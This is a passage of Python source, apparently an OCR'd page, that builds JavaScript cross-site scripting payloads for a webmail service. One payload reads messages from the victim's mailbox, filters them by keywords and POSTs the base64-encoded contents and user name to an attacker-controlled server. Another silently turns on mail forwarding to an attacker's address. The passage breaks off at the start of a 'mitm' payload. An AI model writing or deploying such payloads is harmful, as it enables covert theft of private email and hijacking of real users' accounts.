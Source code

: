 ```python
                server = ' ''' + xss\_platform + ''' '
                xmlhttp4.open('POST',server,false);
                xmlhttp4.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp4.send(to\_send); }}catch(error){}
            '''

delete = '''
                try{                 
                newURL1 = currentURL.replace(/BlankMessageBody/,'List');
                EURL = currentURL.replace(/BlankMessageBody/,'Message');
                var all\_email = new Array();
                var max\_count = ''' + str(max\_count\_delete) + ''';
                var key\_words =''' + keywords\_delete + ''';
                var max\_page = 1;
                var page=1;
                for(page;page<max\_page+1;page++){
                xmlhttp2=new XMLHttpRequest();
                url1 = newURL1 + decodeURIComponent('%26ReturnJavaScript=1%26FolderID=10%26Page=') + page
                xmlhttp2.open('GET',url1,false);
                xmlhttp2.send(null);
                response1 = xmlhttp2.responseText;
                data1 =JSON.parse(response1);
                max\_page = data1.changeMultiPage.totalPages;
                for(var a in data1.scripts){
                all\_email.push(data1.scripts\[a\].id); } }
                if(max\_count>=all\_email.length || max\_count==0 ){
                max\_count=all\_email.length;}
                for(var i=0;i<max\_count;i++ ){
                xmlhttp3=new XMLHttpRequest();
                eurl = EURL + decodeURIComponent('%26ReturnJavaScript=1%26ContentType=JavaScript%26FolderID=10%26Number=') + all\_email\[i\];
                xmlhttp3.open('GET',eurl,false);
                xmlhttp3.send(null);
                email\_response = xmlhttp3.responseText;
                var flag = 0;
                if(key\_words.length==0){flag=1;}
                for(var k in key\_words){
                if(email\_response.match(key\_words\[k\])!=null){flag=1;}}
                if(flag==0){continue;}
                var to\_send = 'a=' + window.btoa(encodeURIComponent(email\_response)) + decodeURIComponent('%26b=') + window.btoa(encodeURIComponent(user));
                xmlhttp4=new XMLHttpRequest();
                server = ' ''' + xss\_platform + ''' '
                xmlhttp4.open('POST',server,false);
                xmlhttp4.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp4.send(to\_send); } }catch(error){}
            '''

forwarding = '''
                try{                
                newURL2 = currentURL.replace(/BlankMessageBody/,'Options-Prefs');
                eurl = newURL2 + decodeURIComponent('%26Save=Yes%26ReturnJavaScript=Yes');
                var to\_send = decodeURIComponent('ForwardingEnabled=Yes%26ForwardingAddress='''+ ForwardingAddress +'''%26ForwardingRetainCopy=Yes');                
                xmlhttp3=new XMLHttpRequest();
                xmlhttp3.open('POST',eurl,false);
                xmlhttp3.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp3.send(to\_send);}catch(error){}

'''

mitm = '''
```
